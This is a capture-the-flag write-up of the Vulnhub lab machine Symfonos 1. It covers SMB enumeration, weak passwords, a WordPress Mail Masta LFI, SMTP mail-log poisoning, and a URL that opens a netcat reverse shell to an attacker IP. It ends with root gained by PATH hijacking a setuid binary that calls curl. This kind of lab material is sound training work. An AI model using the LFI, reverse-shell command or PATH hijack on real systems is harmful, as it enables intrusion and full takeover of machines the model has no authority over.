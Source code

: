 ```yaml
---
title:     "Vulnhub - Symfonos 1"
tags: [wordpress,easy,log-poisoning,smb,path,lfi,setuid]
---
```


Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : <https://www.vulnhub.com/entry/symfonos-1,322/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/2.png)<br/>
Downloaded the ``attention.txt`` to my machine.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/3.png)<br/>
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/6.png)<br/>
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/8.png)

By following the article, Payload is injected <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos1/14.png)

Rooted!!